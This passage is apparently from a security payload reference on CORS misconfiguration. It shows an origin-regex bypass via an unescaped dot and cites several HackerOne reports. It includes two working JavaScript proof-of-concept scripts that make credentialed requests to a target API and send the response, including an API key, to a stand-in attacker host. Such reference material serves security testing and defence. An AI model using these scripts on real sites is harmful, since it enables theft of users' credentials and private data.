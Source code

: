 #### Proof of concept (Example 1)

This PoC requires the respective JS script to be hosted at `evilexample.com`

```js
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://api.example.com/endpoint',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//atttacker.net/log?key='+this.responseText; 
};
```

#### Vulnerable Implementation (Example 2)

In this scenario the server utilizes a regex where the dot was not escaped correctly. For instance, something like this: `^api.example.com$` instead of `^api\.example.com$`. Thus, the dot can be replaced with any letter to gain access from a third-party domain.

```
GET /endpoint HTTP/1.1
Host: api.example.com
Origin: https://apiiexample.com

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://apiiexample.com
Access-Control-Allow-Credentials: true 

{"[private API key]"}

```

#### Proof of concept (Example 2)

This PoC requires the respective JS script to be hosted at `apiiexample.com`

```js
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://api.example.com/endpoint',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//atttacker.net/log?key='+this.responseText; 
};
```

## Bug Bounty reports

* [CORS Misconfiguration on www.zomato.com - James Kettle (albinowax)](https://hackerone.com/reports/168574)
* [CORS misconfig | Account Takeover - niche.co - Rohan (nahoragg)](https://hackerone.com/reports/426147)
* [Cross-origin resource sharing misconfig | steal user information - bughunterboy (bughunterboy)](https://hackerone.com/reports/235200)
* [CORS Misconfiguration leading to Private Information Disclosure - sandh0t (sandh0t)](https://hackerone.com/reports/430249)
* [[██████] Cross-origin resource sharing misconfiguration (CORS) - Vadim (jarvis7)](https://hackerone.com/reports/470298)

